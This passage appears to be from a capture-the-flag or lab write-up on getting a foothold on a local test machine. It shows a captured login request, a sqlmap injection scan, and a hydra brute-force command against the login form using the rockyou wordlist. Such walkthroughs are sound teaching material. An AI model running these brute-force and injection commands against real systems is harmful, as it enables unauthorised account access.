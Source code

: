 


### 2. Initial Foothold (Web Exploitation)

The `command.php` file was particularly interesting. Upon visiting `http://192.168.1.26/command.php` in a browser, it redirected to `index.php`, indicating that authentication was required to access it.



The next step was to attempt to brute-force the login page. A `login.req` file was created to capture the POST request for the login form:

```plaintext
POST /login.php HTTP/1.1
Host: 192.168.1.26
Content-Length: 29
Cache-Control: max-age=0
Origin: http://192.168.1.26
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.26/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ar;q=0.8
Cookie: PHPSESSID=7v74mbp5c8papn13l2a8pdqjq4
Connection: keep-alive

username=admin&password=admin
```

Initial attempts with `sqlmap` on `login.php` did not yield any SQL injection vulnerabilities.

```shellscript
sqlmap -r login.req --batch --level=5 --risk=3 --threads=5
```

Sqlmap reported that parameters `username`, `password`, and `PHPSESSID` did not appear to be dynamic or injectable.

Next, `hydra` was used to brute-force the login form with the `admin` username and the `rockyou.txt` wordlist. Multiple attempts were made to find the correct success condition.

```shellscript
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.26 http-post-form "/login.php:username=^USER^&password=^PASS^:M=logged" -V -I
```

This command attempts to find a successful login by looking for the string "logged" in the response, which is present on the `command.php` page after a successful login. However, `hydra` reported many "valid passwords found," which was suspicious.

To get a more accurate result, a custom Python script was used to detect successful logins by checking the response length. A failed login to `login.php` results in a 302 redirect to `index.php` with a content length of 206. A successful login would redirect to `command.php` (or `index.php` showing "logged in") with a different content length.
